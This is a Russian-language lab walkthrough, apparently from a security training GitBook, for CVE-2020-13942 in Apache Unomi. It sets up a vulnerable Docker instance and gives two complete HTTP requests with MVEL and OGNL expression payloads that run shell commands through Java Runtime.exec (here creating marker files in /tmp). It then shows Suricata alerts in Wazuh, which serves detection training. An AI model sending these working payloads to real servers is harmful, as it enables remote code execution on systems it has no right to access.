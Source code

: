 # CVE-2020-13942

Apache Unomi — это платформа данных о клиентах с открытым исходным кодом Java, сервер Java, предназначенный для управления данными о клиентах, потенциальных клиентах и ​​посетителях, а также для персонализации обслуживания клиентов. В версиях до 1.5.1 Apache Unomi позволял злоумышленникам отправлять вредоносные запросы с выражениями MVEL и OGNL, которые могли содержать произвольные классы, что приводило к удаленному выполнению кода (RCE) с привилегиями приложения Unomi.

### Эксплуатация уязвимости

Для запуска уязвимой среды выоплните команду:

```
docker compose up -d
```

После запуска по адресу http://ваш-ip:8181 будет доступна стандартная страница Apache Unomi

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Выполнение произвольных команд через выражения MVEL:

```
POST /context.json HTTP/1.1
Host: ваш-ip:8181
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/json
Content-Length: 483

{
    "filters": [
        {
            "id": "sample",
            "filters": [
                {
                    "condition": {
                         "parameterValues": {
                            "": "script::Runtime r = Runtime.getRuntime(); r.exec(\"touch /tmp/mvel\");"
                        },
                        "type": "profilePropertyCondition"
                    }
                }
            ]
        }
    ],
    "sessionId": "sample"
}
```

Выполнение произвольных команд через выражения OGNL:

```
POST /context.json HTTP/1.1
Host: ваш-ip:8181
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/json
Content-Length: 1060

{
  "personalizations":[
    {
      "id":"gender-test",
      "strategy":"matching-first",
      "strategyOptions":{
        "fallback":"var2"
      },
      "contents":[
        {
          "filters":[
            {
              "condition":{
                "parameterValues":{
                  "propertyName":"(#runtimeclass = #this.getClass().forName(\"java.lang.Runtime\")).(#getruntimemethod = #runtimeclass.getDeclaredMethods().{^ #this.name.equals(\"getRuntime\")}[0]).(#rtobj = #getruntimemethod.invoke(null,null)).(#execmethod = #runtimeclass.getDeclaredMethods().{? #this.name.equals(\"exec\")}.{? #this.getParameters()[0].getType().getName().equals(\"java.lang.String\")}.{? #this.getParameters().length < 2}[0]).(#execmethod.invoke(#rtobj,\"touch /tmp/ognl\"))",
                  "comparisonOperator":"equals",
                  "propertyValue":"male"
                },
                "type":"profilePropertyCondition"
              }
            }
          ]
        }
      ]
    }
  ],
  "sessionId":"sample"
}
```

В Wazuh (https://ваш-ip/app/wazuh) мы можем увидеть соответствующие алерты от IDS Suricata об эксплуатации данной уязвимости.

<figure><img src="../../.gitbook/assets/image (40).png" alt=""><figcaption></figcaption></figure>
